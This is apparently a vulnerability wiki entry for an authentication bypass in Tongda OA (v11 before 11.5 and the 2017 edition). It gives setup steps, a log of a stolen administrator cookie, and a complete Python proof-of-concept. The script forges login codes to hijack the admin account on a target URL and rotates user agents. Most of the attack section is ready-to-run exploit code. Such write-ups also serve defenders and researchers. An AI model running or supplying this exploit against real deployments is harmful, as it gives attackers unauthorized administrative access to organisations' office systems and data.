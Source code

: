 # Tongda OA v11.5 login_code.php Any user login

## Vulnerability Description

Tongda OA is an office system. 
This vulnerability type is forged by any user, and unauthorized remote attackers can use carefully constructed request packets to make logins for any user.

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA 2017 edition</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA version V11.X < V11.5</span>

## Environment construction

Vulnerability environment download

```plain
https://cdndown.tongda2000.com/oa/2019/TDOA11.4.exe
```

Double-click to install

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-1.png)



## Vulnerability reappears

Use [POC](https://github.com/NS-Sp4ce/TongDaOA-Fake-User/blob/master/POC.py) to get the administrator's cookies

```plain
root@kali:~/桌面# python3 1.py -v 11 -u https://xx.xxx.xxx.xxx
[+]Get Available COOKIE:PHPSESSID=sr3f46qg6539khd3e3rrucoa72; path=/
```

Successfully obtained cookies, add cookie access

```
/general/index.php?isIE=0&modify_pwd=0
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-2.png)



## Vulnerability POC

```python
'''
@Author         : Sp4ce
@Date           : 2020-03-17 23:42:16
LastEditors    : Sp4ce
LastEditTime   : 2020-08-27 10:21:44
@Description    : Challenge Everything.
'''
import requests
from random import choice
import argparse
import json

USER_AGENTS = [
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)",
    "Mozilla/4.0 (compatible; MSIE 7.0; AOL 9.5; AOLBuild 4337.35; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
]

headers={}

def getV11Session(url):
    checkUrl = url+'/general/login_code.php'
    try:
        headers["User-Agent"] = choice(USER_AGENTS)
        res = requests.get(checkUrl,headers=headers)
        resText = str(res.text).split('{')
        codeUid = resText[-1].replace('}"}', '').replace('\r\n', '')
        getSessUrl = url+'/logincheck_code.php'
        res = requests.post(
            getSessUrl, data={'CODEUID': '{'+codeUid+'}', 'UID': int(1)},headers=headers)
        tmp_cookie = res.headers['Set-Cookie']
        headers["User-Agent"] = choice(USER_AGENTS)
        headers["Cookie"] = tmp_cookie
        check_available = requests.get(url + '/general/index.php',headers=headers)
        if '用户未登录' not in check_available.text:
            if '重新登录' not in check_available.text:
                print('[+]Get Available COOKIE:' + tmp_cookie)
        else:
            print('[-]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
    except:
        print('[-]Something Wrong With '+url)



def get2017Session(url):
    checkUrl = url+'/ispirit/login_code.php'
    try:
        headers["User-Agent"] = choice(USER_AGENTS)
        res = requests.get(checkUrl,headers=headers)
        resText = json.loads(res.text)
        codeUid = resText['codeuid']
        codeScanUrl = url+'/general/login_code_scan.php'
        res = requests.post(codeScanUrl, data={'codeuid': codeUid, 'uid': int(
            1), 'source': 'pc', 'type': 'confirm', 'username': 'admin'},headers=headers)
        resText = json.loads(res.text)
        status = resText['status']
        if status == str(1):
            getCodeUidUrl = url+'/ispirit/login_code_check.php?codeuid='+codeUid
            res = requests.get(getCodeUidUrl)
            tmp_cookie = res.headers['Set-Cookie']
            headers["User-Agent"] = choice(USER_AGENTS)
            headers["Cookie"] = tmp_cookie
            check_available = requests.get(url + '/general/index.php',headers=headers)
            if '用户未登录' not in check_available.text:
                if '重新登录' not in check_available.text:
                    print('[+]Get Available COOKIE:' + tmp_cookie)
            else:
                print('[-]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
        else:
            print('[-]Something Wrong With '+url  + ' Maybe Not Vulnerable ?')
    except:
        print('[-]Something Wrong With '+url)


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "-v",
        "--tdoaversion",
        type=int,
        choices=[11, 2017],
        help="Target TongDa OA Version. e.g: -v 11、-v 2017")
    parser.add_argument(
        "-url",
        "--targeturl",
        type=str,
        help="Target URL. e.g: -url 192.168.2.1、-url https://192.168.2.1"
    )
    args = parser.parse_args()
    url = args.targeturl
    if 'https://' not in url:
        url = 'https://' + url
    if args.tdoaversion == 11:
        getV11Session(url)
    elif args.tdoaversion == 2017:
        get2017Session(url)
    else:
        parser.print_help()
```



If you gain something, just like it